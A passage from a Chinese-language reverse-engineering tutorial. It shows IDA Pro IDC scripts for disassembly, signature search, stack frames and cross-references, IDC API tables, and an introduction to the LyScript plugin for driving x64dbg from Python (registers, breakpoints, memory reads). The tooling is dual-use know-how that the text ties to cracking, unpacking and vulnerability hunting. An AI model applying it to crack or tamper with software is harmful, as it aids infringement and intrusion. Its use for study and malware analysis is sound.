标签高亮功能的实现依赖于`SetColor`函数，该函数传入三个参数，其中参数1用于指定需要检索的范围，该范围可以通过`NextHead()`函数获取到，只要该节点不会返回`BADADDR`则可以继续遍历下一个节点，第二个参数则代表标注类型，第三个参数代表要在那个位置进行标注；
```C
#include <idc.idc>

static main(void)
{
    auto head, op;
    head = NextHead(0x00000000, 0xFFFFFFFF);
    while ( head != BADADDR )
    {
        op = GetMnem(head);
        Message("%x %s \n",head,op);

        
        if ( op == "jmp" || op == "call" )
            SetColor(head, CIC_ITEM, 0x010187);
            
        if (op == "xor")
            SetColor(head, CIC_ITEM, 0x010198);
        head = NextHead(head, 0xFFFFFFFF);
    }
}
```

**（9）实现地址反汇编输出**

在IDA中有时我们需要对特定位置进行反汇编，并以脚本的方式输出，此时读者可使用`GetDisasm(inst)`函数来实现，该函数传入一个`RfirstB`生成的迭代类型，并依次循环输出，直到对100行输出为止；
```C
#include <idc.idc>

static main(void)
{
    auto decode = 0x401000;
    auto xref;
    
    for(xref = RfirstB(decode); xref != BADADDR; xref = RnextB(decode,xref))
    {
        Message("xref: %x\n",xref);
        auto i = 0;
        auto inst = xref;
        auto op;
        
       while((i < 100) )
       {
            // 向后枚举下一个
            inst = FindCode(inst,0x00);
        
            // 输出反汇编
            op = GetDisasm(inst);
            Message("%x --> %s \n",inst,op);
            i++;
       }
    } 
}
```
当具备了反汇编功能后，那么读者则可通过各种方式实现对指令集的判断，并以此来实现过滤特定指令地址并输出的目的，如下所示，通过`strstr()`函数对符合特定条件的字符串进行过滤，当找到后返回该函数的所在位置；
```C
#include <idc.idc>

static main()
{
    auto currAddr,startSeg,endSeg;
    
    currAddr = ScreenEA();
    startSeg = SegStart(currAddr);
    endSeg = SegEnd(currAddr);
    
    Message("OEP = %x 起始地址: %x 结束地址: %x \n",currAddr,startSeg,endSeg);
    
    while(startSeg < endSeg)
    {
        auto op = GetDisasm(startSeg);
        
        // 查找第一条指令
        if(strstr(op,"push    esi")==0)
        {
            startSeg++;
            op = GetDisasm(startSeg);
            if(strstr(op,"push    edi"))
            {
                Message("特征: %x \n",startSeg-1);
            }
        }
        startSeg++;
    }
}
```
当然反汇编函数并非只有`GetDisasm`读者同样可以使用`GetMnem`返回位于特定地址处的指令，`GetOpnd`用于返回特定位置处的机器码，同样可以使用`FindBinary`实现对特定地址的特征码搜索功能；
```C
#include <idc.idc>

static main()
{
    // 搜索特征码
    auto code = FindBinary(0x401020,1,"55 8B EC");
    Message("%x \n",code);

    // 返回反汇编代码
    code = GetDisasm(0x401000);
    Message("%s \n",code);
    
    // 返回位于地址处的指令
    code = GetMnem(0x401000);
    Message("%s \n",code);
    
    // 返回opcode机器码
    code = GetOpnd(0x401070,0);
    Message("%s \n",code);
}
```

**（10）实现枚举函数栈帧**

生成每个函数的栈帧，通过`NextFunction()`函数可实现枚举当前模块内所有函数地址，通过循环并调用`GetFram()`来得到当前函数栈帧大小，并使用`GetMemberOffset()`保存栈中返回地址偏移量，依次循环输出当前函数内的完整栈帧数据；
```C
#include <idc.idc>

static main()
{
    auto addr,args,end,locals,frame,firstArg,name,ret;
    
    for(addr = NextFunction(addr); addr != BADADDR; addr = NextFunction(addr))
    {
        name = Name(addr);
        end = GetFunctionAttr(addr,FUNCATTR_END);
        locals = GetFunctionAttr(addr,FUNCATTR_FRSIZE);
        
        // 得到栈帧大小
        frame = GetFrame(addr);
        
        // 栈中保存返回地址偏移量
        ret = GetMemberOffset(frame," r");
        if(ret == -1)
        {
            continue;
        }
        
        firstArg = ret +4;
        args = GetStrucSize(frame) - firstArg;
        
        Message("函数: %s 开始: 0x%x 结束: 0x%x 大小: %d bytes 栈帧: %d bytes (%d args) \n",name,addr,end,locals,args,args/4);
    }
}
```

**（11）检索交叉引用**

枚举当前模块中的交叉引用，通过`XrefType()`函数可枚举出当前被分析程序中的交叉引用情况，如下案例中实现了对当前程序内所有交叉引用的枚举工作，并输出三个参数，参数1代表主函数，参数2代表被引用函数，参数3代表当前函数的内存地址；

```C
#include <idc.idc>

static main()
{
    auto func,end,target,inst,name,flags,xref;
    flags = SEARCH_DOWN | SEARCH_NEXT;
    func = GetFunctionAttr(ScreenEA(),FUNCATTR_START);
    
    if(func != -1)
    {
        name =Name(func);
        end = GetFunctionAttr(func,FUNCATTR_END);
        for(inst = func;inst < end; inst = FindCode(inst,flags))
        {
            for(target = Rfirst(inst);target != BADADDR; target = Rnext(inst,target))
            {
                xref = XrefType();
                if(xref == fl_CN || xref == fl_CF)
                {
                    Message("%s | %s | %x \n",name,Name(target),inst);
                }
            }
        }
    }
}
```
如果读者想要实现枚举特定一个函数的交叉引用信息，则可通过使用`LocByName(bad_func)`增加过滤条件，并依次实现过滤特定函数的目的，代码的修改只需要小改即可；
```C
#include <idc.idc>

static FindFunction(bad_func)
{
    auto func,addr,xref,source;
    
    func = LocByName(bad_func);
    if(func == BADADDR)
    {
        Message("error \n");
    }
    else
    {
        for(addr = RfirstB(func);addr != BADADDR; addr = RnextB(func,addr))
        {
            xref = XrefType();
            if(xref == fl_CN || xref == fl_CF)
            {
                source = GetFunctionName(addr);
                Message("%s call => %0x in %s \n",bad_func,addr,source);
            }
        }
    }  
}

static main()
{
    FindFunction("LoadString");
}
```

### 3.2 IDC中常用函数

经过上一节内容的学习相信读者已经找我了IDC脚本的基本编写技巧，根据IDAPro官方的资料可知，IDC脚本中封装了非常多有用的API接口，而要想更好的使用IDA实现自动化，这些结构的使用将变得非常重要，本节内容将总结整理IDA官方文档中的有用的API函数，来方便读者更好地运用。

**（1）读取修改数据**

| 函数 | 功能 |
|:----:|:----:|
| long Byte(long addr) | 读取1字节 |
| long Word(long addr) | 读取2字节 |
| long Dword(long addr) | 读取4字节 |
| void PatchByte(long addr,long val) | 设置虚拟地址处1个字节 |
| void PatchWord(long addr,long val) | 设置虚拟地址处1个字 |
| void PatchDword(long addr,long val) | 设置虚拟地址处4字节 |
| void isLoaded(long addr) | addr包含有效数据返回1，否则返回0 |

**（2）用户交互函数**

| 函数 | 功能 |
|:----:|:----:|
| void Message（string format，...）| 输出一条消息 |
| void print(...) | 打印每个参数的字符串表示形式 |
| void Warning(string format....) | 在对话框中显示一条格式化消息 |
| string AskStr(string default，string prompt) | 显示一个字符串输入框|
| string Askfile(long doSave，string mask，string prompt) | 显示一个文件选择对话框，(doSave=1 0)mask(如*.*或*.idc) |
| long AskYN(long default，string prompt) | 弹出是否选择对话框 |
| long ScreenEA() | 返回当前光标所在位置的虚拟地址 |
| bool Jump(long addr) | 跳转到反汇编窗口的指定地址 |

**（3）字符串操作函数**

| 函数 | 功能 |
|:----:|:----:|
| string form(string format，....) | 格式化并返回一个新字符串 |
| string sprintf(string format....) | 格式化并返回一个新字符串 |
| long atol(string val) | 将十进制值val转换成对应的整数值 |
| long xtol(string val) | 将十六进制值val(可选择以0x开头)转换成对应的整数值 |
| string 1toa(long val.long radix) | 以指定的radix(2、8、10或16)返回val字符串 |
| long ord(string ch) | 返回单字符字符串ch的ASCII值 |
| long strlen(string str) | 返回所提供字符串的长度 |
| long strstr(string str.string substr) | 返回str中substr的索引 |
| string substr(string str. long start.long end) | 返回包含str中由start到end-1位置的字符的子字符串 |

**（4）文件输入输出函数**

| 函数 | 功能 |
|:----:|:----:|
| long fopen(string filename，string mode) | 打开文件，模式(r表示读取，w表示写入) |
| void fclose(long handle) | 关闭fopen中文件句柄指定的文件 |
| long filelength(long handle)     | 返回指定文件的长度，如果发生错误，则返回-1。                                                                    |
| long fgetc(long handle)          | 从给定文件中读取一个字节。如果发生错误，则返回-1。                                                              |
| long fputc(long val, long handle) | 写入一个字节到给定文件中。如果操作成功，则返回0；如果发生错误，则返回-1。                                      |
| long fprintf(long handle, string format, ...) | 将一个格式化字符串写入到给定文件中。                                                        |
| long writestr(long handle, string str) | 将指定的字符串写入到给定文件中。                                                                               |
| string/long readstr(long handle) | 从给定文件中读取一个字符串。这个函数读取到下一个换行符为止的所有字符(包括非ASCII字符)，包括换行符本身(ASCII 0xA)。如果操作成功，则返回字符串；如果读取到文件结尾，则返回-1。|
| long writelong(long handle, long val, long bigendian) | 使用大端(bigendian=1)或小端(bigendian=0)字节顺序将一个4字节整数写入到给定文件中。                             |
| long readlong(long handle, long bigendian) | 使用大端(bigendian=1)或小端(bigendian=0)字节顺序从给定的文件中读取一个4字节整数。                             |
| long writeshort(long handle, long val, long bigendian) | 使用大端(bigendian=1)或小端(bigendian=0)字节顺序将一个2字节整数写入到给定的文件中。                             |
| long readshort(long handle, long bigendian) | 使用大端(bigendian=1)或小端(bigendian=0)字节顺序从给定的文件中读取一个2字节整数。                             |
| bool loadfile(long handle, long pos, long addr, long length) | 从给定文件的pos位置读取length数量的字节，并将这些字节写入以addr地址开头的数据库中。                          |
| bool savefile(long handle, long pos, long addr, long length) | 将以addr数据库地址开头的length数量的字节写入给定文件的pos位置。                                           |

**（5）操纵数据库名称**

| 函数 | 功能 |
|:----:|:----:|
| string Name(long addr)                    | 返回与给定地址有关的名称，如果该位置没有名称，则返回空字符串。如果名称被标记为局部名称，这个函数并不返回用户定义的名称。 |
| string NameEx(long from, long addr)       | 返回与addr有关的名称。如果该位置没有名称，则返回空字符串。如果`from`是一个同样包含`addr`的函数中的地址，则这个函数返回用户定义的局部名称。 |
| bool MakeNameEx(long addr, string name, long flags) | 将给定的名称分配给给定的地址。该名称使用`flags`位掩码中指定的属性创建而成。这些标志在帮助系统中的`MakeNameEx`文档中有记录描述，可用于指定各种属性，如名称是局部名称还是公共名称、名称是否应在名称窗口中列出。 |
| long LocByName(string name)               | 返回一个位置(名称已给定)的地址。如果数据库中没有这个名称，则返回`BADADDR`(-1)。 |
| long LocByNameEx(long funcaddr, string localname) | 在包含`funcaddr`的函数中搜索给定的局部名称。如果给定的函数中没有这个名称，则返回`BADADDR`(-1)。 |

**（6）处理函数的函数**

| 函数 | 功能 |
|:----:|:----:|
| long GetFunctionAttr(long addr，long attrib) | 返回包含给定地址的函数的被请求的属性 |
| string GetFunctionName(long addr) | 返回包含给定地址的函数的名称 |
| long NextFunction(long addr) | 回给定地址后的下一个函数的起始地址 |
| long PrevFunction(long addr) | 返回给定地址之前距离最近的函数的起始地址 |

**（7）代码交叉引用函数**

| 函数 | 功能 |
|:----:|:----:|
| long Rfirst(long from) | 返回给定地址向其转交控制权的第一个位置 |
| long Rnext(long from，long current) | 如果current已经在前一次调用Rfirst或Rnext时返回，则返回给定地址(from)转交控制权的下一个位置。|
| long XrefType() | 返回一个常量，说明某个交叉引用查询函数(如 Rfirst)返回的最后一个交叉引用的类型。|
| long RfirstB(long to) | 返回转交控制权到给定地址的第一个位置。如果不存在对给定地址的交叉引用，则返回BADADDR(-1)。|
| long RnextB(long to.long current) | 如果current 已经在前一次调用RfirstB或RnextB时返回，则返回下一个转交控制权到给定地址(to)的位置。如果不存在其他对给定位置的交叉引用，则返回BADADDR(-1)。 |

**（8）数据交叉引用函数**

| 函数 | 功能 |
|:----:|:----:|
| string Name(long addr)                    | 返回与给定地址有关的名称，如果该位置没有名称，则返回空字符串。如果名称被标记为局部名称，这个函数并不返回用户定义的名称。 |
| string NameEx(long from, long addr)       | 返回与addr有关的名称。如果该位置没有名称，则返回空字符串。如果`from`是一个同样包含`addr`的函数中的地址，则这个函数返回用户定义的局部名称。 |
| bool MakeNameEx(long addr, string name, long flags) | 将给定的名称分配给给定的地址。该名称使用`flags`位掩码中指定的属性创建而成。这些标志在帮助系统中的`MakeNameEx`文档中有记录描述，可用于指定各种属性，如名称是局部名称还是公共名称、名称是否应在名称窗口中列出。 |
| long LocByName(string name)               | 返回一个位置(名称已给定)的地址。如果数据库中没有这个名称，则返回`BADADDR`(-1)。 |
| long LocByNameEx(long funcaddr, string localname) | 在包含`funcaddr`的函数中搜索给定的局部名称。如果给定的函数中没有这个名称，则返回`BADADDR`(-1)。 |

**（9）数据库操纵函数**

| 函数 | 功能 |
| ----------------------------------------------- | -------------------------------------------------------------------------------------- |
| void MakeUnkn(long addr, long flags)          | 取消位于指定地址的项的定义。这里的标志(参见`IDC`的`MakeUnkn`文档)指出是否也取消随后的项的定义，以及是否删除任何与取消定义的项有关的名称。相关函数`MakeUnknown`允许你取消大块数据的定义。 |
| long MakeCode(long addr)                      | 将位于指定地址的字节转换成一条指令。如果操作成功，则返回指令的长度，否则返回0。                                                                    |
| bool MakeByte(long addr)                      | 将位于指定地址的项目转换成一个数据字节。类似的函数还包括`MakeWord`和`MakeDword`。                                                                       |
| bool MakeComm(long addr, string corment)      | 在给定的地址处添加一条常规注释。                                                       |
| bool MakeFunction(long begin, long end)       | 将由`begin`到`end`的指令转换成一个函数。如果`end`被指定为`BADADDR`(-1)，IDA会尝试通过定位函数的返回指令，来自动确定该函数的结束地址。                 |
| bool MakeStr(long begin, long end)            | 创建一个当前字符串(由`GetStringType`返回)类型的字符串，涵盖由`begin`到`end-1`之间的所有字节。如果`end`被指定为`BADADDR`，IDA会尝试自动确定字符串的结束位置。|

**（10）数据库搜索函数**

| 函数 | 功能 |
|:----:|:----:|
| long FindCode(long addr.long flags) | 从给定的地址搜索一条指令 |
| long FindBinary(long addr，long flags，string binary) | 从给定的地址搜索一个字节序列 |
| long FindData(long addr，long flags) | 从给定的地址搜索一个数据项 |
| long FindText(long addr. long flags. long row. long column， string text) | 在给定的地址，从给定行(row)的给定列搜索字符串 text。|

**（11）反汇编系列函数**

| 函数 | 功能 |
|:----:|:----:|
| string GetDisasm(long addr) | 返回给定地址的反汇编文本 |
| string GetMnem(long addr) | 返回位于给定地址的指令的助记符部分 |
| string GetOpnd(long addr.long opnum) | 返回指定地址的指定操作数的文本形式 |
| long GetOpType(long addr，long opnum) | 返回一个整数，指出给定地址的给定操作数的类型 |
| long GetOperandValue(long addr.long oprum) | 返回与给定地址的给定操作数有关的整数值 |
| string CommentEx(long addr，long type) | 返回给定地址处的注释文本 |


## 第四篇：探索LyScript漏洞挖掘插件

在第一章中我们介绍了`x64dbg`这款强大的调试软件，通过该软件逆向工程师们可以手动完成对特定进程的漏洞挖掘及脱壳等操作，虽然`x64dbg`支持内置`Script`脚本执行模块，但脚本引擎通常来说是不够强大的，LyScript 插件的出现填补了这方面的不足，该插件的开发灵感来源于`Immunity`调试器中的`ImmLib`库，因`Immunity`调试器继承自`Ollydbg`导致该调试器无法支持64位应用的调试，同时该调试器也长期没有开发者进行维护，正是在这种情形之下`LyScript`诞生，如下图是插件的官方图标及下载地址；


 - LyScript官方地址：https://github.com/lyshark/LyScript

LyScript是一款 `x64dbg` 自动化控制插件，通过`Python`控制`x64dbg`的行为，实现远程动态调试，解决了逆向工作者分析程序，反病毒人员脱壳，漏洞分析者寻找指令片段，原生脚本不够强大的问题，通过与`Python`相结合利用`Python`语法的灵活性以及其丰富的第三方库，加速漏洞利用程序的开发，辅助漏洞挖掘以及恶意软件分析。

LyScript插件的安装非常容易，读者只需要在官方下载对应的插件并放入到`plugins/`根目录下即可，当插件加载成功，读者可看到如下图所示的输出信息，过程中可能会出现网络通信授权框，请读者允许并放行即可；



接着读者还需要打开命令行，并通过`pip`命令安装对应的插件包，LyScript插件一般而言分为两个核心包`LyScript`用于实现基于函数的通信机制，而`LyScriptTools`则是对函数的类版封装，两者建议全部安装；

 - 安装标准包：pip install LyScript32 或者 pip install LyScript64
 - 安装扩展包：pip install LyScriptTools32 或者 pip install LyScriptTools64

安装此插件读者应该具备了`Python`开发环境，版本必须大于`3.6`才可以，当环境具备后，读者可执行上述命令，依次安装这几个不同的版本。
```c
Microsoft Windows [版本 10.0.19042.1826]
(c) Microsoft Corporation。保留所有权利。

C:\Users\admin> pip install LyScript32
C:\Users\admin> pip install LyScript64
C:\Users\admin> pip install LyScriptTools32
C:\Users\admin> pip install LyScriptTools64
```

### 4.1 如何使用插件

LyScript 插件提供了丰富的 API 封装函数，包括寄存器、调试、模块、内存、堆栈、进程和线程等不同类别的函数。这些函数可以帮助开发者更方便地访问和修改程序的内部信息，便于调试和破解，但需要开发者具备一定的编程和调试经验，并遵守相应的规范和准则，以确保软件的安全和稳定性。

> 注意：首先读者需要启动带有插件功能的`x64dbg`调试器，并手动拖入一个任意被调试进程到调试器中，这是使用插件功能的必备条件，基于Python下的`LyScript`模块无法独立运行，这一点读者需要格外注意。

根据插件官方解释，用户在使用该插件时首先需要通过`dbg = MyDebug()`初始化一个调试控制类，当这个类被初始化结束后则可以通过`dbg.connect()`函数连接到调试器中，当连接被建立时则默认会创建一个持久会话直到Python脚本结束才会被强制断开，在连接期间读者也可通过`dbg.is_connect()`检测套接字是否存在，如下面这段代码则是一个最基本的实现方法。
```Python
>>> from LyScript32 import MyDebug
>>>
>>> dbg=MyDebug()
>>>
>>> connect_flag = dbg.connect()
>>> print("连接状态: {}".format(connect_flag))
连接状态: True
>>>
>>> ref = dbg.is_connect()
>>> print("是否在连接: ", ref)
是否在连接:  True
>>>
>>> dbg.close()
True
```
在该代码示例中，用户首先通过导入 `LyScript` 插件中的`MyDebug`类，创建了一个名为`dbg`的实例，并初始化该类。接着调用`dbg.connect()`函数，建立连接。连接成功后，使用`is_connect()`函数检查套接字是否存在，并将结果打印出来。最后，调用`dbg.close()`函数以关闭调试器连接。

#### 4.1.1 读取或设置寄存器参数

寄存器是计算机中的一种高速存储设备，位于CPU内部。它们由一些元器件构成，通常是用于存储和操作CPU指令和数据的硬件单元。不同的CPU架构可能会有不同的寄存器数量、位宽和功能。

寄存器是计算机架构中非常重要的一部分，因为他们能够在CPU执行指令时快速地存储和读取数据，从而提高计算速度。寄存器的存储速度比内存快得多，通常称为“零缓存器延迟”（zero cache delay），所以它们是程序优化的主要目标之一。

寄存器的功能多种多样，包括存储数据、指令地址、指令结果，以及用于计算、判断等各种用途。常见的寄存器包括累加器、计数器、指针寄存器、标志寄存器等。在程序中，寄存器经常用来存储中间计算结果和临时变量，通常比内存访问更快，从而提高程序运行效率。



在x64dbg中寄存器通常会展现在屏幕的右上角，以32位为例，默认情况下寄存器可被分为，通用寄存器，标志寄存器，DR系列特殊寄存器组，以及段选择子等。

通用寄存器以及该寄存器的功能如下表格所示；

| 寄存器名 | 描述                                                         |
|----------|--------------------------------------------------------------|
| EAX      | 累加器，用于存放一些计算结果或指针。                         |
| ECX      | 计数器，主要用于循环计数等功能。                             |
| EDX      | 数据寄存器，被用于存放一些指针或标志信息。                   |
| EBX      | 基地址寄存器，主要用于访问内存中的数据。                     |
| ESP      | 栈指针，用于指向当前的栈顶。                                  |
| EBP      | 基址指针，通常被用来指向当前的栈帧。                         |
| ESI      | 源索引寄存器，通常用于字符串操作。                           |
| EDI      | 目标索引寄存器，也常常用于字符串操作。                       |

标志寄存器以及该寄存器的功能如下表格所示；

| 标志寄存器 | 含义                                                                                                                                                           |
|------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CF         | 进位标志 (Carry Flag)。该标志表示在执行无符号算术指令时是否发生了进位。                                                                                      |
| PF         | 奇偶标志 (Parity Flag)。该标志表示指令执行后结果的低八位中1的个数是否为偶数。如果是偶数，标志位被设置为1，否则为0。                                       |
| AF         | 奥半字进位标志 (Auxiliary Carry Flag)。该标志表示执行指令后低四位的进位情况。                                                                                |
| ZF         | 零标志 (Zero Flag)。该标志表示上一条指令执行后结果是否为零。如果结果为零，标志位被设置为1，否则为0。                                                        |
| SF         | 符号标志 (Sign Flag)。该标志表示结果是否为负数。如果结果为负数，标志位被设置为1，否则为0。                                                                  |
| TF         | 调试标志 (Trap Flag)。该标志用于单步调试，当该标志被设置为1时，CPU将在执行完每一条指令后暂停，这使得调试器可以检查这一指令对寄存器和存储器的影响。 |
| IF         | 中断允许标志 (Interrupt Flag)。如果该标志为1，表示CPU允许响应来自外部设备的可屏蔽中断请求。                                                              |
| DF         | 方向标志 (Direction Flag)。该标志用于指示字符串操作指令是否应该向前 (DF=0) 或向后 (DF=1) 方向进行操作。                                                  |
| OF         | 溢出标志 (Overflow Flag)。该标志表示在执行有符号算术指令时是否发生了溢出。 |

在`LyScript`插件中，通常会使用`get_register()`函数获取特定通用寄存器的参数，与之对应的可以使用`set_register()`函数实现设置，如下片段则是分别获取与设置特定寄存器组的函数调用规范；
```Python
>>> eax = dbg.get_register("eax")
>>> hex(eax)
'0xa'
>>>
>>> eip = dbg.get_register("eip")
>>> hex(eip)
'0x76fdc3b8'
>>>
>>> flag = dbg.set_register("eax",100)
>>> flag
True
>>> hex(dbg.get_register("eax"))
'0x64'
```
同理，对于获取与设置标志寄存器，也有一对标准的通用函数`get_flag_register()`函数用于获取一个标志，而与之对应的`set_flag_register()`函数则用于设置一个标志，需要注意的是在设置标志时，第二个参数需传入一个状态`[设置为真 True] / [设置为假 False]`而不是接受一个字符或整数；
```Python
>>> tf = dbg.get_flag_register("tf")
>>> tf
False
>>>
>>> zf = dbg.get_flag_register("zf")
>>> zf
True
>>>
>>> flag = dbg.set_flag_register("cf",True)
>>> flag
True
>>>
```

#### 4.1.2 使用调试控制系列函数

调试器的核心功是对程序进行调试，而调试器内部实现往往会调用操作系统提供的调试API，调试系列函数是这些API之一，用于帮助开发者在程序执行时得到更多的信息，包括内存值、指令执行状态、变量状态等，以便更加全面和深入地了解代码的运行情况和错误。调试系列函数的主要作用如下：

 - 用于设置和管理断点，包括硬件断点、软件断点等。
 - 提供各种调试命令，包括单步执行、运行到某个指定位置、查看内存寄存器的状态信息等，为程序的调试过程提供必要的信息。

总之，调试系列函数为调试器提供了丰富的操作接口和调试工具，使得开发人员能够更加深入和全面地了解程序的运行状态，并借助这些信息更好地调试和定位程序的错误和漏洞。

首先介绍的是`set_debug()`函数，该函数是调试器中一个非常重要的函数，它被用于影响调试器的状态，常见的操作包括前进一次、后退一次、暂停调试、终止调试等。在调试过程中，开发人员会根据需要进行不同的调试操作，以理解程序执行的过程、获得代码执行的状态信息以及找到代码中的错误。



该函数的可用的动作范围包括：暂停（Pause）、运行（Run）、步入（StepIn）、步过（StepOut）、到结束（StepOver）、停止（Stop）以及等待（Wait）。通过调用set_debug()函数，并传递相应的参数，读者可以方便地进行调试操作，并随时获取程序的运行状态信息。例如，将参数设置为“暂停”，则可以暂停程序的执行、查看程序内存中的值以及检查程序调用栈等信息；将参数设置为“运行”则可以继续程序的执行，直到遇到下一个断点或者程序结束。

我们以步入（StepIn）、步过（StepOut）为例，读者可使用如下命令执行一次动作；
```Python
>>> dbg.set_debug("StepIn")
True
>>> dbg.set_debug("StepOut")
True
>>>
```
此外判断调试器动作也是一种非常普遍的功能，插件内提供了`is_debugger() /is_running()/is_run_locked()`三个调试函数，函数`is_debugger`可用于验证当前调试器是否处于调试状态，函数`is_running`则用于验证是否在运行，函数`is_run_locked`用于检查调试器是否被锁定(暂停)，这三个函数的调用规范与上方基本一致；
```Python
>>> dbg.is_debugger()
True
>>> dbg.is_running()
False
>>> dbg.is_run_locked()
True
```

#### 4.1.3 使用断点设置系列函数

断点是调试器中常用的工具之一，可以帮助开发人员暂停程序的运行并检查程序中的错误。x64dbg中的断点分为以下几类：



 - 软件断点（BP）：软件断点是一种在程序执行期间暂停程序并引起中断的代码指令，可用于修复软件中的一些缺陷或调试程序。在x64dbg中，使用“F2”键可以在程序的代码段中设置软件断点，碰到指定断点时会暂停程序并进入调试模式，以便对程序进行调试。

 - 硬件断点：硬件断点是一种针对某个具体的地址，由CPU硬件支持的断点，当程序执行到该地址时，CPU会中断程序并通知调试器进行调试。硬件断点在调试器中设置方式和软件断点相同，也是通过“F2”键来设置。在使用硬件断点时，需要特殊注意硬件断点的数量，因为硬件断点数量通常非常有限。

 - 内存断点：内存断点是一种根据条件变化暂停程序执行的断点，它可以对内存地址进行监视，当内存中的指定值在程序运行时发生变化时触发中断。在x64dbg中，可以通过“右键菜单”中的“内存浏览器”或“内存”窗口设置内存断点。

LyScript插件可以使用`set_breakpoint()`函数设置软件断点，使用`delete_breakpoint()`函数删除一个软件断点，使用`check_breakpoint()`函数可用于检测断点是否被命中，使用`get_all_breakpoint()`可用于输出当前所有断点
```Python
>>> eip = dbg.get_register("eip")
>>> dbg.set_breakpoint(eip)
True
>>> dbg.check_breakpoint(eip)
True
>>> ref = dbg.get_all_breakpoint()
>>> ref
[{'addr': 4584081, 'enabled': 1, 'hitcount': 0, 'type': 1}, {'addr': 1996337564, 'enabled': 1, 'hitcount': 0, 'type': 1}, {'addr': 1996337612, 'enabled': 1, 'hitcount': 0, 'type': 1}, {'addr': 1996337643, 'enabled': 1, 'hitcount': 0, 'type': 1}]
```
同理，当读者需要设置硬件断点是可使用`set_hardware_breakpoint()`设置，但需要注意硬件断点在32位系统中最多设置4个，如果需要取消断点则可使用`delete_hardware_breakpoint()`函数将断点进行移除；

> 断点类型可用范围：[类型 0 = HardwareAccess / 1 = HardwareWrite / 2 = HardwareExecute]

```Python
>>> ref = dbg.set_hardware_breakpoint(eip,2)
>>> print(ref)
True
>>> ref = dbg.delete_hardware_breakpoint(eip)
>>> print(ref)
True
```

#### 4.1.4 使用堆栈系列函数

堆栈窗口是调试器非常重要的一个功能窗口，可以帮助开发人员监视程序运行时的堆栈信息。该窗口能够显示当前线程的调用栈、局部变量（Local Variables）以及函数参数（Function Parameters）等重要信息，并以图形化的方式呈现出来，方便用户进行查看和调试。



在x64dbg的堆栈窗口中，对于每一个程序运行时的线程，都会显示当前线程的调用栈信息，最上面的栈帧表示当前正在执行的函数，下面栈帧则为调用该函数的函数。用户可以通过向上和向下翻转堆栈栈帧查看程序函数调用的层级，便于查找程序执行过程中的错误和问题。

此外，在当前调用栈帧中，用户还可以查看当前函数的参数和局部变量等信息，这些信息通常是有助于调试程序问题的关键性信息。用户可以通过右键单击堆栈窗口中的任何一帧来切换该帧的状态，包括指针、参数、图像、字符串、十六进制等，以便更加准确地查看当前栈的信息。

综上所述，堆栈窗口是x64dbg调试器中非常重要的一个功能窗口，可以帮助用户在程序执行过程中理解、调试和跟踪程序执行的层次结构和变量信息，解决代码的问题，提高开发效率。

堆栈系列函数包括了`push_stack()`用于向目标堆栈中压入一个数值，与之对应的`pop_stack()`则用于在堆栈中弹出一个元素，`peek_stack()`函数用于检查堆栈内的参数，可设置偏移值，不设置则默认检查第一个也就是栈顶。
```Python
>>> check = dbg.peek_stack()
>>> check
1996055601
>>>
>>> check = dbg.peek_stack(1)
>>> hex(check)
'-0x757bb72f'
>>>
>>> dbg.push_stack(10)
True
>>> dbg.push_stack(10)
True
>>> dbg.pop_stack()
True
>>> check = dbg.peek_stack(1)
>>> hex(check)
'0x76f96431'
>>>
```

#### 4.1.5 使用反汇编系列函数

反汇编是调试器中非常重要的核心功能之一，它可以将已编译的二进制代码转换为对应的汇编代码，帮助开发人员了解程序的执行流程和代码逻辑，并定位代码问题。在x64dbg调试器中，反汇编功能是其核心功能之一，具有以下特点：

 - 显示汇编代码：x64dbg反汇编窗口可以将二进制代码反汇编为对应的汇编代码，包括指令、寄存器、内存地址等信息，方便开发人员进行代码分析和调试。
 - 支持多种格式：除了常见的AT&T格式和Intel格式汇编代码之外，x64dbg还支持多种反汇编码格式，比如Hopper、GDB和IDA等，满足不同开发人员的需求。
 - 集成调试功能：x64dbg反汇编窗口还集成了调试功能，支持在反汇编视图中设置断点、单步执行、条件断点等操作，可以帮助开发人员更加有效地调试程序。
 - 支持多种反汇编引擎：x64dbg支持多种反汇编引擎，包括TitanEngine、Capstone、BeaEngine等，可以进行更加准确和全面的反汇编分析。

反汇编是x64dbg调试器的核心功能之一，可以帮助开发人员进行代码分析和调试，定位代码问题，提高开发效率。通过x64dbg的反汇编功能，开发人员可以有效地了解程序的代码逻辑、执行流程和指令序列，为调试和分析程序提供有力的支持。



当读者需要使用插件控制调试器反汇编时可以使用`get_disasm_code()`该函数主要用于对特定内存地址进行反汇编，需传入两个参数，并输出一个字典类型的数据集合，如下案例我们反汇编EIP位置处向下的30个行；
```Python
>>> eip = dbg.get_register("eip")
>>> disasm_dict = dbg.get_disasm_code(eip,30)
>>>
>>> for ds in disasm_dict:
...     print("地址: {} 反汇编: {}".format(hex(ds.get("addr")),ds.get("opcode")))
...
地址: 0x76fdb19c 反汇编: ret
地址: 0x76fdb19d 反汇编: mov ecx, dword ptr ds:[0x770537C0]
地址: 0x76fdb1a3 反汇编: test cl, 0x3
地址: 0x76fdb1a6 反汇编: je 0x76FDC66E
地址: 0x76fdb1ac 反汇编: push eax
地址: 0x76fdb1ad 反汇编: push 0x76F36CF0
```

#### 4.1.6 使用内存读写系列函数

内存读写功能，可以让读者在调试阶段直接读取和修改程序的内存内容，方便程序调试和分析。下面是对LyScript插件内存读写功能的简要概述：

 - 内存读取：通过LyScript插件，开发人员可以通过代码读取已经加载的程序进程的内存中特定地址的值。该插件提供了几个不同的内存读取函数，包括ReadByte()、ReadWord()、ReadDword()、ReadQword()等。通过这些函数，开发人员可以直接读取目标窗口中的指定内存地址，以获取其值。

 - 内存写入：除了读取程序内存的值，LyScript插件还支持修改程序的内存值。内存写入函数为WriteByte()、WriteWord()、WriteDword()、WriteQword()等几个相关的函数。通过这些函数，开发人员可以直接修改目标窗口中的指定内存地址，以达到调试和分析程序的目的。

通过LyScript插件的内存读写功能，读者可以直接读取和修改目标程序的内存信息，方便调试和分析程序。同时，该插件也提供了一些内存操作API，一些常用的内存操作功能，帮助安全从业者更加方便地操作内存数据。



当读者需要读取内存数据时可以使用`read_memory_byte()`来实现，如下案例中通过`get_register()`函数获取到当前EIP的内存地址，并使用内存读函数获取该内存中的前十条数据集，输出效果如下所示；
```Python
>>> eip = dbg.get_register("eip")
>>>
>>> for index in range(0,10):
...     ref = dbg.read_memory_byte(eip+index)
...     print(hex(ref))
...
0xc3
0x8b
0xd
0xc0
0x37
0x5
0x77
0xf6
0xc1
0x3
```

